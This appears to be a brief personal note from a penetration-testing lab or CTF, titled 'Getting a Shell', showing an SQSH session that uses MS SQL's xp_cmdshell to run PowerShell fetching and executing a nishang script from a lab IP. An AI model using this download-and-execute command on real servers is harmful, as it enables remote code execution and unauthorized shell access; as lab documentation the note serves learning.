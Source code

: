 # Getting a Shell

On SQSH
```bash
1> xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.21/nishang.ps1')"
2> go
```

![[Pasted image 20211116120536.png]]
